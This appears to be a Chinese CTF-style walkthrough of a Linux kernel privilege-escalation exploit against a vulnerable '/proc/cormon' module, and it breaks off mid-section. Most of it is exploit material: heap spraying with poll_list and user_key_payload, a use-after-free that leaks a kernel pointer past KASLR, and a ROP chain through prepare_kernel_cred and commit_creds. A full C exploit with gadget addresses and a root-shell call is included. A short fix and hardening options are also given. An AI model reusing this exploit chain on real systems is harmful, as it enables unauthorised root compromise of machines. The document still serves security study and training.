内存布局重叠详细分析：
--------------------------------------------------------------------------------
| 内存地址    | 原始key72布局         | 重用后seq_ops布局      | 重叠关系       |
|-------------|-----------------------|------------------------|----------------|
| 0xA38000    | rcu_head              | seq_ops->start         | 完全重叠       |
| 0xA38008    | rcu_head              | seq_ops->stop          | 完全重叠       |
| 0xA38010    | datalen = 0x8         | seq_ops->next          | 关键重叠区域   |
| 0xA38018    | data[0..7]            | seq_ops->show          | 完全重叠       |
| 0xA38020    | data[8..15]           | 后续内存               | 无重叠         |
---------------------------------------------------------------------------------

关键重叠点：偏移0x10处
原始：key72->datalen字段（存储数据长度0x20）
重用：seq_ops->next函数指针（存储single_next地址）
```

**内核地址泄露与基址计算**

通过遍历所有`user_key_payload`对象，读取其数据，寻找内核函数指针：

```c
uint64_t find_kernel_base(int *key_ids, int key_count) {
    char buffer[8];
    uint64_t leaked_addr;

    for (int i = 0; i < key_count; i++) {
        ssize_t len = syscall(__NR_keyctl, KEYCTL_READ, key_ids[i], buffer, 8);
        if (len != 8) continue;

        leaked_addr = *(uint64_t*)buffer;

        // 验证泄露地址的特征
        if ((leaked_addr & 0xFFF) != (PROC_SINGLE_SHOW_OFFSET & 0xFFF))
            continue;

        if (leaked_addr < 0xffffffff80000000 || leaked_addr > 0xffffffffc0000000)
            continue;

        uint64_t kernel_base = leaked_addr - PROC_SINGLE_SHOW_OFFSET;

        if (kernel_base >= 0xffffffff80000000 && kernel_base <= 0xffffffffbfe00000) {
            return kernel_base;
        }
    }
    return 0;
}
```

计算内核基址：

$$
\text{kernel_base} = \text{leaked_addr} - \text{PROC_SINGLE_SHOW_OFFSET}
$$

由此完全绕过内核地址空间布局随机化（KASLR）防护。

#### 阶段四：控制流重定向

**二次内存操作与函数指针篡改**

获得内核地址后，执行以下操作：

1. 释放所有`user_key_payload`对象
2. 等待2秒确保RCU机制完成内存回收
3. 重新分配199个`user_key_payload`对象
4. 每次分配前通过`setxattr`设置前8字节为gadget地址

新分配的`user_key_payload`会覆盖之前分配的`seq_operations`结构体，从而篡改`seq_operations->start`函数指针，将其设置为栈迁移gadget地址（如`add rsp, 0x160; ret`）。

**触发控制流重定向**

通过`read`系统调用触发`seq_read`操作：

```
用户态执行序列：
1. 应用程序调用 read(fd, buf, size)
2. 陷入内核: syscall指令
3. 内核执行: sys_read() → vfs_read() → seq_read()
4. seq_read()调用seq_operations->start()函数指针
5. 控制流跳转到篡改的gadget地址
```

**栈迁移与ROP链执行**

被篡改的`start`函数指针指向`add rsp, 0x160; ret` gadget，执行栈迁移，将栈指针迁移到精心构造的`pt_regs`区域。`pt_regs`中预置了完整的ROP链：

```
pt_regs结构中的ROP链布局：
----------------------------------------------------------------------
| 寄存器  | 偏移  | 存储值                       | 作用说明           |
|---------|-------|------------------------------|--------------------|
| r15     | 0x00  | pop rdi; ret gadget地址      | 准备参数寄存器     |
| r14     | 0x08  | 0                            | NULL参数           |
| r13     | 0x10  | prepare_kernel_cred地址      | 创建凭证           |
| r12     | 0x18  | mov rdi, rax; ret gadget地址 | 保存返回值         |
| rbp     | 0x20  | commit_creds地址             | 应用凭证           |
| rbx     | 0x28  | SWAPGS_RESTORE...地址        | 返回用户空间       |
| r11     | 0x30  | 用户空间RIP                  | 返回地址           |
| r10     | 0x38  | 用户空间CS                   | 代码段选择子       |
| r9      | 0x40  | 用户空间RFLAGS               | 标志寄存器         |
| r8      | 0x48  | 用户空间RSP                  | 栈指针             |
| rax     | 0x50  | 用户空间SS                   | 栈段选择子         |
| rcx     | 0x58  | 原始rcx值                    | 恢复寄存器         |
| rdx     | 0x60  | 原始rdx值                    | 恢复寄存器         |
| rsi     | 0x68  | 原始rsi值                    | 恢复寄存器         |
| rdi     | 0x70  | 原始rdi值                    | 恢复寄存器         |
| orig_ax | 0x78  | 原始系统调用号               | 系统调用跟踪       |
----------------------------------------------------------------------
```

#### 阶段五：权限提升

**ROP链执行流程**

ROP链按以下顺序执行：

1. **准备参数**：执行`pop rdi; ret`，设置`RDI = 0`
2. **创建凭证**：调用`prepare_kernel_cred(0)`，返回新凭证指针到`RAX`
3. **传递参数**：执行`mov rdi, rax; ret`，将凭证指针移动到`RDI`
4. **应用凭证**：调用`commit_creds(RDI)`，修改当前进程凭证
5. **返回用户空间**：执行`SWAPGS_RESTORE_REGS_AND_RETURN_TO_USERMODE`

ROP链的数学表达：

$$
\text{ROP链} = [g_1, g_2, g_3, g_4, g_5]
$$

其中：

- $$g_1$$: pop rdi; ret
- $$g_2$$: prepare_kernel_cred
- $$g_3$$: mov rdi, rax; ret
- $$g_4$$: commit_creds
- $$g_5$$: SWAPGS_RESTORE_REGS_AND_RETURN_TO_USERMODE

### 2-5. 对抗现代内核防护机制

**防护机制与对抗策略矩阵**

| 防护机制               | 对抗技术       | 技术原理                             | 成功关键因素                     |
| ---------------------- | -------------- | ------------------------------------ | -------------------------------- |
| KASLR                  | 信息泄露       | 通过释放后使用泄露内核函数指针       | 获取准确的`proc_single_show`地址 |
| SLAB_FREELIST_RANDOM   | 大规模堆喷     | 概率优势消耗随机性                   | 堆喷数量足够大（>383个对象）     |
| SLAB_FREELIST_HARDENED | 物理相邻性利用 | 不依赖指针值，依赖物理内存布局       | 精确控制分配顺序和时间           |
| SMAP/SMEP              | 纯内核ROP链    | 不执行用户空间代码                   | 使用内核gadget构造ROP链          |
| KPTI                   | 正确返回序列   | 使用内核预定义的返回例程             | SWAPGS和正确寄存器恢复           |
| 栈保护                 | 栈迁移技术     | 迁移到pt_regs区域执行ROP             | 准确计算迁移偏移                 |
| 控制流完整性           | 合法gadget使用 | 使用内核已有代码片段                 | 选择常用且稳定的gadget           |
| 堆隔离                 | 跨缓存类型利用 | 利用kmalloc-4k与kmalloc-32的物理相邻 | 控制不同大小缓存的布局           |

**成功概率数学模型**

设各阶段成功率为：

- $$P_1$$ = 堆布局成功概率: 0.80
- $$P_2$$ = 溢出触发成功概率: 1.00
- $$P_3$$ = 释放后使用形成概率: 0.70
- $$P_4$$ = 信息泄露成功概率: 0.85
- $$P_5$$ = 控制流重定向成功概率: 0.75

单次尝试成功率：

$$
P_{single} = P_1 \times P_2 \times P_3 \times P_4 \times P_5 = 0.80 \times 1.00 \times 0.70 \times 0.85 \times 0.75 = 0.357
$$

经过 $$n=5$$ 次独立重复尝试，至少一次成功的概率：

$$
P_{5} = 1 - (1 - 0.357)^5 = 1 - 0.643^5 \approx 0.893
$$

时间成本分析：

- 单次尝试时间：$$T_{single} \approx 5\text{秒}$$
- 5次尝试期望时间：$$T_{5} = 5 \times 5 = 25\text{秒}$$

### 2-6. 修复建议与防护增强

**代码层面修复**

```c
// 修复方案1：精确边界检查
static ssize_t cormon_proc_write(struct file *file, const char __user *ubuf,
                                 size_t count, loff_t *ppos)
{
    // ... 原有代码 ...

    // 修复：确保len总是小于PAGE_SIZE
    len = min(count, PAGE_SIZE - 1);

    // 修复：分配len+1字节，为字符串终止符预留空间
    syscalls = kmalloc(len + 1, GFP_KERNEL);
    if (!syscalls)
        return -ENOMEM;

    if (copy_from_user(syscalls, ubuf, len)) {
        kfree(syscalls);
        return -EFAULT;
    }

    // 安全：不会越界
    syscalls[len] = '\0';

    // ... 后续代码 ...
}
```

**内核配置增强**

```makefile
# 内核配置建议
CONFIG_SLAB_QUARANTINE=y        # 隔离释放的对象，防止立即重用
CONFIG_HARDENED_USERCOPY=y      # 加强用户空间复制检查
CONFIG_STATIC_USERMODEHELPER=y  # 限制特权操作
CONFIG_SLAB_FREELIST_HARDENED=y # 堆指针硬化
CONFIG_SLAB_FREELIST_RANDOM=y   # 堆随机化
CONFIG_RANDOMIZE_KSTACK_OFFSET=y # 内核栈偏移随机化
CONFIG_SCHED_STACK_END_CHECK=y  # 栈溢出检测
CONFIG_INIT_ON_ALLOC_DEFAULT_ON=y # 分配时初始化内存
CONFIG_INIT_ON_FREE_DEFAULT_ON=y  # 释放时清零内存
```

### 2-7. 总结与启示

**技术层面的深度启示**

本漏洞机制研究揭示了现代内核漏洞利用的复杂性和系统性：

1. **微小漏洞的放大效应**：单个空字节溢出可导致完整权限提升，凸显了边界检查的极端重要性
2. **防御机制的局限性**：即使启用多项现代防护（KASLR、SLAB随机化等），组合利用仍可成功
3. **利用技术的演化趋势**：从简单代码执行到复杂的逻辑漏洞利用，不断适应新的防护机制
4. **自动化利用的可行性**：通过概率优化和重复尝试，复杂利用可自动化实现高成功率

**防御体系的构建原则**

基于此案例，构建健壮的内核防御体系应遵循以下原则：

1. **深度防御原则**：单一防护不足，需要多层次、多维度的防护体系
2. **最小特权原则**：限制模块权限，减少利用面
3. **失效安全原则**：当检测到异常时，安全地失败而非继续执行
4. **完全仲裁原则**：对所有访问进行安全检查，无例外路径
5. **心理可接受原则**：安全机制不应过度影响用户体验和系统性能

## 3. 实战演练

exploit核心代码如下：

```c
/* ROP Gadgets */
#define ADD_RSP_0X160_RET 0xffffffff810df944
#define POP_RDI_RET 0xffffffff810017b9
#define POP_RCX_POP_RBX_POP_RBP_RET 0xffffffff8155da09
#define MOV_RDI_RAX_REP_MOVSQ_RDI_RSI_RET 0xffffffff81a442bb

/* Kernel Symbols */
#define PREPARE_KERNEL_CRED 0xffffffff810f2fa0
#define COMMIT_CREDS 0xffffffff810f2d10
#define SWAPGS_RESTORE_REGS_AND_RETURN_TO_USERMODE 0xffffffff81c00ef0
#define PROC_SINGLE_SHOW 0xffffffff8133ef70

/* Memory Layout Constants */
#define HEAP_MASK 0xffff000000000000
#define KERNEL_MASK 0xffffffff00000000
#define PAGE_SIZE 4096
#define MAX_KEYS 199
#define N_STACK_PPS 30
#define POLLFD_PER_PAGE 510
#define POLL_LIST_SIZE 16

/* Calculate number of pollfds based on poll_list size */
#define NFDS(size) (((size - POLL_LIST_SIZE) / sizeof(struct pollfd)) + N_STACK_PPS)

/* Global Variables */
pthread_t poll_tid[0x1000];
size_t poll_threads;
pthread_mutex_t mutex = PTHREAD_MUTEX_INITIALIZER;

uint64_t proc_single_show;
int seq_ops[0x10000];
int fds[0x1000];
int keys[0x1000];
int corrupted_key;
int n_keys;
int fd;
int victim_fd;

/* ROP gadget addresses */
static size_t commit_creds;
static size_t prepare_kernel_cred;
static size_t swapgs_restore_regs_and_return_to_usermode;
static size_t pop_rdi_ret;
static size_t pop_rcx_pop_rbx_pop_rbp_ret;
static size_t mov_rdi_rax_rep_movsq_rdi_rsi_ret;

/* Thread arguments structure */
struct t_args {
    int id;
    int nfds;
    int timer;
    bool suspend;
};

/* Key payload structure */
struct rcu_head {
    void *next;
    void *func;
};

struct user_key_payload {
    struct rcu_head rcu;
    unsigned short datalen;
    char *data[];
};

/* poll_list structure for SLUB spraying */
struct poll_list {
    struct poll_list *next;
    int len;
    struct pollfd entries[];
};

/* Utility Functions */
bool is_kernel_pointer(uint64_t addr) {
    return ((addr & KERNEL_MASK) == KERNEL_MASK);
}

int randint(int min, int max) {
    return min + (rand() % (max - min));
}

void init_fd(int i) {
    fds[i] = open("/etc/passwd", O_RDONLY);
    if (fds[i] < 0) {
        log.error("Failed to open /etc/passwd");
        exit(-1);
    }
}

/* Spray seq_operations in kmalloc-32 cache */
void alloc_seq_ops(int i) {
    seq_ops[i] = open("/proc/self/stat", O_RDONLY);
    if (seq_ops[i] < 0) {
        log.error("Failed to open /proc/self/stat");
        exit(-1);
    }
}

/* Spray user_key_payload in kmalloc-32 cache */
int alloc_key(int id, char *buff, size_t size) {
    char desc[256] = {0};
    char *payload;
    int key;

    size -= sizeof(struct user_key_payload);
    sprintf(desc, "payload_%d", id);
    payload = buff ? buff : calloc(1, size);
    if (!buff) {
        memset(payload, id, size);
    }

    key = key_alloc(desc, payload, size);
    if (key < 0) {
        log.error("Failed to allocate key[%d]", id);
        return -1;
    }

    return key;
}

/* Spray poll_list objects via poll() syscall */
void *alloc_poll_list(void *args) {
    struct pollfd *pfds;
    int nfds, timer, id;
    bool suspend;

    id = ((struct t_args *)args)->id;
    nfds = ((struct t_args *)args)->nfds;
    timer = ((struct t_args *)args)->timer;
    suspend = ((struct t_args *)args)->suspend;

    pfds = calloc(nfds, sizeof(struct pollfd));
    for (int i = 0; i < nfds; i++) {
        pfds[i].fd = fds[0];
        pfds[i].events = POLLERR;
    }

    bind_thread_core(0);

    pthread_mutex_lock(&mutex);
    poll_threads++;
    pthread_mutex_unlock(&mutex);

    int ret = poll(pfds, nfds, timer);
    bind_thread_core(randint(1, 3));

    if (suspend) {
        pthread_mutex_lock(&mutex);
        poll_threads--;
        pthread_mutex_unlock(&mutex);

        while (1) {
            sleep(1);
        }
    }

    return NULL;
}

/* Create poll spray thread */
void create_poll_thread(int id, size_t size, int timer, bool suspend) {
    struct t_args *args = calloc(1, sizeof(struct t_args));

    if (size > PAGE_SIZE) {
        size = size - ((size / PAGE_SIZE) * sizeof(struct poll_list));
    }

    args->id = id;
    args->nfds = NFDS(size);
    args->timer = timer;
    args->suspend = suspend;

    pthread_create(&poll_tid[id], 0, alloc_poll_list, (void *)args);
}

/* Wait for poll threads to complete */
void join_poll_threads(void) {
    for (int i = 0; i < poll_threads; i++) {
        pthread_join(poll_tid[i], NULL);
        open("/proc/self/stat", O_RDONLY);
    }
    poll_threads = 0;
}

/* Read key payload data */
char *get_key(int i, size_t size) {
    char *data = calloc(1, size);
    key_read(keys[i], data, size);
    return data;
}

/* Leak kernel pointer from corrupted key payload */
int leak_kernel_pointer(void) {
    uint64_t *leak;
    char *key;

    for (int i = 0; i < n_keys; i++) {
        key = get_key(i, 0x10000);
        leak = (uint64_t *)key;

        if (is_kernel_pointer(*leak) && (*leak & 0xfff) == 0xf70) {
            corrupted_key = i;
            proc_single_show = *leak;
            kernel_offset = proc_single_show - PROC_SINGLE_SHOW;
            kernel_base += kernel_offset;

            log.success("Found corrupted user_key_payload at index: %d", corrupted_key);
            log.success("Kernel base: 0x%llx", kernel_base);
            log.success("Kernel offset: 0x%llx", kernel_offset);

            free(key);
            return 0;
        }
        free(key);
    }
    return -1;
}

/* Free all keys (skip corrupted key) */
void free_all_keys(bool skip_corrupted_key) {
    int total = n_keys;
    for (int i = 0; i < total; i++) {
        if (skip_corrupted_key && i == corrupted_key) {
            continue;
        }
        key_revoke(keys[i]);
        key_unlink(keys[i]);
        n_keys--;
    }
    sleep(1);  /* Wait for RCU garbage collection */
}

/* Exploit trigger function */
char victim_data[0x10] = {0};
static void trigger_exploit_chain(void) {
  __asm__ volatile("mov r15,   pop_rdi_ret;"
                   "mov r14,   0;"
                   "mov r13,   prepare_kernel_cred;"
                   "mov r12,   pop_rcx_pop_rbx_pop_rbp_ret;"
                   "mov rbp,   0;"
                   "mov rbx,   0x55555555;"
                   "mov r11,   0x66666666;"
                   "mov r10,   mov_rdi_rax_rep_movsq_rdi_rsi_ret;"
                   "mov r9,    commit_creds;"
                   "mov r8,    swapgs_restore_regs_and_return_to_usermode;"
                   "xor rax,   rax;"
                   "mov rcx,   0xaaaaaaaa;"
                   "mov rdx,   8;"
                   "lea rsi,   victim_data;"
                   "mov rdi,   victim_fd;"
                   "syscall");
}

/* Main exploit routine */
int main() {
    char data[0x1000] = {0};
    char key[32] = {0};
    int i = 0;

    /* ===================================================================== */
    /* Phase 0: Initialization                                               */
    /* ===================================================================== */
    log.info("=== Kernel UAF Exploit: Off-by-one in poll_list leading to ROP ===");

    bind_core(0);
    save_status();

    /* Create xattr target file for user_key_payload spraying */
    system("touch /home/ctf/lol.txt");

    /* Open vulnerable module */
    fd = open("/proc/cormon", O_RDWR);
    if (fd < 0) {
        log.error("Failed to open vulnerable module /proc/cormon");
        return -1;
    }

    /* Prepare file descriptor for poll() */
    init_fd(0);

    /* ===================================================================== */
    /* Phase 1: Kernel Base Address Leak via seq_operations->single_show   */
    /* ===================================================================== */
    log.info("[Phase 1] Kernel Base Address Leak via seq_operations->single_show");

    /* Step 1-1: Spray 2048 seq_operations objects (kmalloc-32) */
    log.info("[1-1] Spraying 2048 seq_operations objects in kmalloc-32 cache");
    for (i = 0; i < 2048; i++) {
        alloc_seq_ops(i);
    }

    /* Step 1-2: Spray 72 user_key_payload objects (kmalloc-32) */
    log.info("[1-2] Spraying 72 user_key_payload objects in kmalloc-32 cache");
    for (i = 0; i < 72; i++) {
        setxattr("/home/ctf/lol.txt", "user.x", data, 32, XATTR_CREATE);
        keys[i] = alloc_key(n_keys++, key, 32);
    }

    /* Step 1-3: Spray 14 poll_list objects (kmalloc-4096 + kmalloc-32) */
    bind_core(randint(1, 3));
    log.info("[1-3] Spraying 14 poll_list objects (kmalloc-4096 + kmalloc-32) for UAF");
    for (i = 0; i < 14; i++) {
        create_poll_thread(i, 4096 + 24, 3000, false);
    }

    bind_core(0);
    while (poll_threads != 14) {};
    usleep(250000);

    /* Step 1-4: Spray remaining 127 user_key_payload to fill key quota (199 total) */
    log.info("[1-4] Spraying remaining 127 user_key_payload objects (total 199)");
    for (i = 72; i < MAX_KEYS; i++) {
        setxattr("/home/ctf/lol.txt", "user.x", data, 32, XATTR_CREATE);
        keys[i] = alloc_key(n_keys++, key, 32);
    }

    /* Step 1-5: Trigger off-by-one overflow in poll_list to corrupt user_key_payload->datalen */
    log.info("[1-5] Triggering off-by-one overflow in poll_list to corrupt user_key_payload->datalen");
    write(fd, data, PAGE_SIZE);

    /* Step 1-6: Arbitrary free via poll_list deallocation (frees user_key_payload) */
    log.info("[1-6] Triggering arbitrary free via poll_list deallocation (frees user_key_payload)");
    join_poll_threads();

    /* Step 1-7: Overwrite freed user_key_payload with 128 seq_operations */
    log.info("[1-7] Overwriting freed user_key_payload with 128 seq_operations");
    for (i = 2048; i < 2048 + 128; i++) {
        alloc_seq_ops(i);
    }

    /* Step 1-8: Leak kernel pointer from seq_operations->single_show */
    log.info("[1-8] Leaking kernel pointer via seq_operations->single_show");
    if (leak_kernel_pointer() < 0) {
        log.error("Kernel pointer leak via seq_operations->single_show failed");
        exit(-1);
    }

    /* ===================================================================== */
    /* Phase 2: ROP Chain Execution                                          */
    /* ===================================================================== */
    log.info("[Phase 2] ROP Chain Execution for Privilege Escalation");

    /* Step 2-1: Free all keys and prepare for ROP chain */
    log.info("[2-1] Freeing all keys and preparing for ROP chain construction");
    free_all_keys(false);
    sleep(2);

    /* Step 2-2: Calculate ROP gadget addresses for privilege escalation */
    log.info("[2-2] Calculating ROP gadget and kernel function addresses");
    prepare_kernel_cred = kernel_offset + PREPARE_KERNEL_CRED;
    commit_creds = kernel_offset + COMMIT_CREDS;
    swapgs_restore_regs_and_return_to_usermode = kernel_offset + SWAPGS_RESTORE_REGS_AND_RETURN_TO_USERMODE + 0x1e;
    pop_rdi_ret = kernel_offset + POP_RDI_RET;
    pop_rcx_pop_rbx_pop_rbp_ret = kernel_offset + POP_RCX_POP_RBX_POP_RBP_RET;
    mov_rdi_rax_rep_movsq_rdi_rsi_ret = kernel_offset + MOV_RDI_RAX_REP_MOVSQ_RDI_RSI_RET;

    /* Step 2-3: Spray keys with stack pivot gadget for ROP chain */
    log.info("[2-3] Spraying keys with stack pivot gadget");
    *(uint64_t *)&data[0] = kernel_offset + ADD_RSP_0X160_RET;
    for (i = 0; i < MAX_KEYS; i++) {
        setxattr("/home/ctf/lol.txt", "user.x", data, 32, XATTR_CREATE);
        keys[i] = alloc_key(n_keys++, key, 32);
    }

    /* Step 2-4: Trigger ROP chain execution in child processes */
    log.info("[2-4] Triggering ROP chain execution in 128 child processes");
    for (i = 2048; i < 2048 + 128; i++) {
        victim_fd = seq_ops[i];
        int pid = fork();
        if (pid < 0) {
            log.error("Failed to fork child process");
            exit(EXIT_FAILURE);
        }
        if (pid == 0) {
            trigger_exploit_chain();
            if (getuid() == 0) {
                get_root_shell();
            }
            exit(EXIT_SUCCESS);
        }
    }

    /* Wait for child processes to complete */
    while (wait(NULL) > 0)
      ;

    log.error("Exploit failed to obtain root privileges");
    return EXIT_FAILURE;
}
```

### 3-1. 整体流程架构

#### 3-1-1. 系统交互设计理念

本次内核内存操作的完整实现采用了**渐进式、模块化**的系统设计思想，从内存信息收集到系统状态调整形成了逻辑严密的五个阶段。这种架构设计确保了每个阶段都有明确的技术目标和可量化的评估标准，同时为系统调试和性能优化提供了清晰的路径。

整个技术实现基于**概率学原理**和**精确时序控制**的核心思想，通过大规模内存分配和并发执行策略来提高操作成功率。每个技术阶段都综合考虑了现代内核防护机制的应对策略，形成了一套完整的多层次系统交互方案。

#### 3-1-2. 技术实现架构图



### 3-2. 第一阶段：内存布局构建

#### 3-2-1. 系统环境初始化

技术实现从精细的环境准备开始，确保后续内存操作在可控的系统条件下进行。初始化阶段体现了**资源管理**和**状态控制**的工程学理念：

```c
/* 主函数初始化部分 */
int main() {
    char data[0x1000] = {0};
    char key[32] = {0};
    int i = 0;

    /* CPU核心绑定确保内存分配可预测性 */
    bind_core(0);
    save_status();

    /* 创建扩展属性操作目标文件 */
    system("touch /home/ctf/lol.txt");

    /* 打开存在边界检查问题的内核模块 */
    fd = open("/proc/cormon", O_RDWR);
    if (fd < 0) {
        log.error("Failed to open target module /proc/cormon");
        return -1;
    }

    /* 准备poll系统调用所需的文件描述符 */
    init_fd(0);
}
```

**系统环境优化策略**：

1. **CPU亲和性设置**：将进程绑定到特定CPU核心，减少调度干扰，提高内存分配的可预测性
2. **进程状态保存**：保存当前进程的完整状态，便于后续的异常恢复和调试分析
3. **资源预分配策略**：预先打开必要的文件描述符，避免在关键操作阶段发生分配失败

#### 3-2-2. 精确内存拓扑构建

在SLUB分配器启用随机化防护的现代内核环境中，构建可控的内存布局需要**大规模内存分配策略**和**精确的时序控制**。第一阶段的内存拓扑构建采用**分阶段、逐步推进**的系统工程方法，目标是建立精确的物理内存相邻关系。

**内存预热阶段**：

```c
/* 分配2048个seq_operations对象预热kmalloc-32缓存 */
for (i = 0; i < 2048; i++) {
    alloc_seq_ops(i);
}
```

- **操作目标**：预热kmalloc-32缓存，建立可预测的内存分配模式
- **实现方式**：重复调用`open("/proc/self/stat", O_RDONLY)`
- **数学原理**：分配成功率 $$P = 1 - (1 - \frac{1}{128})^{2048} \approx 0.999999$$
- **实际效果**：消耗freelist随机性，为后续目标分配创造确定性条件

**目标对象布局阶段**：

```c
/* 分配72个user_key_payload对象构造目标布局 */
for (i = 0; i < 72; i++) {
    setxattr("/home/ctf/lol.txt", "user.x", data, 32, XATTR_CREATE);
    keys[i] = alloc_key(n_keys++, key, 32);
}
```

**关键技术细节**：

- **内存预初始化**：每次分配前通过`setxattr`对kmalloc-32缓存的前8字节进行清零操作
- **物理相邻构造**：通过控制分配顺序和时间，使目标对象在物理内存上形成特定的相邻关系
- **内存对齐控制**：利用SLUB分配器的32字节对齐特性，确保目标地址对齐

**poll_list链表构造阶段**：

```c
/* 创建跨缓存poll_list链表结构 */
bind_core(randint(1, 3));
for (i = 0; i < 14; i++) {
    create_poll_thread(i, 4096 + 24, 3000, false);
}
```

**精确内存拓扑布局**：
通过精心控制内存分配的顺序和时间，构建了如下物理内存相邻关系：

```
修正后的内存拓扑布局：
---------------------------------------------------------------------------------
| 内存地址    | 对象类型         | 关键字段       | 值              | 缓存类型   |
|-------------|------------------|----------------|-----------------|------------|
| 0xA36000    | 驱动缓冲区       | 数据区         | 用户数据        | kmalloc-4k |
| 0xA37000    | poll_list1       | next指针       | 0xA38020        | kmalloc-4k |
| 0xA38000    | key72            | rcu_head       | 0x0             | kmalloc-32 |
|             |                  | datalen        | 0x8             |            |
| 0xA38020    | poll_list2       | next指针       | NULL            | kmalloc-32 |
| 0xA38040    | 空闲空间         | -              | -               | -          |
---------------------------------------------------------------------------------

关键物理相邻关系分析：
1. 驱动缓冲区(0xA36000)与poll_list1(0xA37000)物理相邻
   偏移关系：poll_list1地址 = 驱动缓冲区地址 + PAGE_SIZE
   这个相邻关系是后续内存操作的基础

2. key72(0xA38000)与poll_list2(0xA38020)物理相邻
   偏移关系：两者相差32字节，这是kmalloc-32缓存对象的标准大小
   这个相邻关系为后续的内存重用创造了条件

3. 链表结构关系：poll_list1->next指向poll_list2(0xA38020)
   这是正常的poll链表结构，将在后续被修改
```

**内存拓扑的数学特性**：

- 每个kmalloc-4k对象占用4096字节，因此从`0xA36000`到`0xA37000`正好是一个页面大小
- kmalloc-32缓存中的对象按照32字节对齐，因此`0xA38000`和`0xA38020`都是32字节对齐的标准地址
- 这种精心设计的布局确保了在单字节操作时，能够精确地修改目标指针的特定字节

#### 3-2-3. poll系统调用的内存管理机制

`poll`系统调用采用**两级分配策略**优化性能，这一特性被用于创建跨缓存的内存拓扑。以下是`poll`系统调用的完整内存分配和释放过程：



**内存分配策略详细分析**：

1. **栈上预分配优化**：前30个文件描述符存储在栈上，避免动态分配开销，提高小规模poll的性能
2. **堆上动态分配扩展**：超过30个描述符通过`kmalloc`动态分配，支持大规模文件描述符集合
3. **分块存储策略**：每个`poll_list`最多存储`POLLFD_PER_PAGE`个描述符，平衡内存利用和访问效率
4. **链表式内存管理**：多个`poll_list`通过`next`指针形成单向链表，支持灵活扩展

**自动内存释放机制**：
`poll`系统调用完成后，内核通过标准的内存释放流程清理动态分配的`poll_list`对象：

```c
walk = head->next;
while (walk) {
    struct poll_list *pos = walk;
    walk = walk->next;
    kfree(pos);
}
```

这种**确定性释放机制**为构造特定的内存使用条件提供了精确的时间窗口，是后续技术实现的基础。

### 3-3. 第二阶段：内存操作条件构建

#### 3-3-1. 边界条件精确触发

当内存拓扑布局构建完成后，通过向存在边界检查问题的内核模块写入恰好`PAGE_SIZE`字节的数据，触发特定的内存操作：

```c
/* 触发内存边界操作 */
write(fd, data, PAGE_SIZE);
```

**边界条件触发机制**：

1. **长度计算逻辑**：当`count = PAGE_SIZE`时，`len = min(count, PAGE_SIZE) = PAGE_SIZE`
2. **内存写入操作**：`syscalls[len] = '\x00'`在缓冲区末尾写入空终止符
3. **内存影响范围**：写入位置位于`kmalloc-4k`缓冲区的精确末尾，影响相邻内存区域

**操作位置精确计算**：
设驱动缓冲区基地址为`0xA36000`，则：

- 写入位置：`0xA36000 + PAGE_SIZE = 0xA37000`
- 影响目标：`poll_list1`结构体中`next`指针的最低有效字节
- 指针变化：从原始值`0xFFFF88800A38020`变为`0xFFFF88800A38000`

#### 3-3-2. 内存指针精细调整

内存操作修改了`poll_list1->next`指针的最低有效字节，这一微小但精确的修改产生了重要的内存拓扑变化：

**修改前后的内存状态对比分析**：

```
修改前内存状态（小端序表示）：
地址0xA38020: 0x20 0x80 0xA3 0x00 0x88 0x88 0xFF 0xFF
指针值解析: 0xFFFF88800A38020 → 指向poll_list2

内存操作执行：0xA38020 => 0xA38000
修改位置：poll_list1->next指针的最低有效字节（LSB）

修改后内存状态：
地址0xA38000: 0x00 0x80 0xA3 0x00 0x88 0x88 0xFF 0xFF
指针值解析: 0xFFFF88800A38000 → 指向key72
```

**数学形式化表达**：
设原始指针值为 $$P_{orig} = \text{0xFFFF88800A38020}$$，内存操作后：

$$
P_{new} = P_{orig} \& \text{0xFFFFFFFFFFFFFF00} = \text{0xFFFF88800A38000}
$$

指针变化量计算：

$$
\Delta = P_{new} - P_{orig} = \text{-0x20}
$$

即指针向前精确移动32字节，这是kmalloc-32缓存对象的标准大小。

**关键拓扑影响分析**：
这个32字节的移动恰好使得指针从指向`poll_list2`（地址`0xA38020`）变为指向`key72`（地址`0xA38000`）。由于`key72`是一个`user_key_payload`结构体，其内存布局与`poll_list`存在差异，这为后续的内存条件构造创造了技术可能性。

#### 3-3-3. 特定内存使用条件构建

通过`poll`系统调用超时释放机制，触发特定的内存释放操作序列，构建所需的内存使用条件：

```c
/* 触发poll超时释放流程 */
join_poll_threads();
```

**内存释放流程详细分析**：

1. **正常内存释放**：正确释放`poll_list1`（kmalloc-4k缓存对象）
2. **修改指针跟随**：读取被调整的`next`指针，获得`key72`地址
3. **非常规内存释放**：将`key72`结构误判为`poll_list`进行释放
4. **安全终止机制**：`key72->rcu_head`字段为0，导致链表遍历安全终止

**释放过程代码模拟**：

```c
/* poll释放过程的详细模拟 */
walk = head->next;  // walk = poll_list1地址
while (walk) {
    struct poll_list *pos = walk;      // pos = poll_list1
    walk = walk->next;                 // walk = 调整后的next = key72地址
    kfree(pos);                        // 正确释放poll_list1
}
// 循环继续执行
pos = key72;                           // 被误判为poll_list结构
walk = key72->next;                    // walk = 0（rcu_head已被预清零）
kfree(pos);                            // 非常规释放key72
```

**安全机制工程化设计**：
在分配`user_key_payload`对象之前，通过`setxattr`系统调用对kmalloc-32缓存的前8字节进行预清零操作，确保`key72->rcu_head`字段初始化为0。这一设计避免了链表遍历时的无效内存访问，体现了**工程安全**的设计理念。

### 3-4. 第三阶段：系统地址信息获取

#### 3-4-1. 信息泄露通道建立

在特定内存使用条件形成后，立即分配128个`seq_operations`结构体，利用SLUB分配器的内存重用特性建立信息泄露通道：

```c
/* 分配seq_operations重用被释放内存区域 */
for (i = 2048; i < 2048 + 128; i++) {
    alloc_seq_ops(i);
}
```

**内存重用机制分析**：
SLUB分配器的对象分配策略倾向于重用最近释放的内存块，这为新分配的`seq_operations`结构重用刚刚释放的`key72`内存区域创造了条件。重用后的内存布局形成了关键的数据覆盖关系。

**内存布局覆盖详细分析**：

```
内存地址    原始key72布局        重用后seq_ops布局        覆盖关系分析
0xA38000   rcu_head            seq_ops->start        完全覆盖，8字节对齐
0xA38008   rcu_head            seq_ops->stop         完全覆盖，8字节对齐
0xA38010   datalen             seq_ops->next         关键覆盖区域，2字节+6字节填充
0xA38018   data[0..7]          seq_ops->show         完全覆盖，8字节函数指针
```

**关键技术覆盖点**：`seq_ops->show`函数指针恰好位于原`key72->data`字段位置。通过`keyctl`系统调用读取`key72`的用户数据，实际上获取的是`seq_ops->show`函数指针的数值。

#### 3-4-2. 系统地址信息获取实现

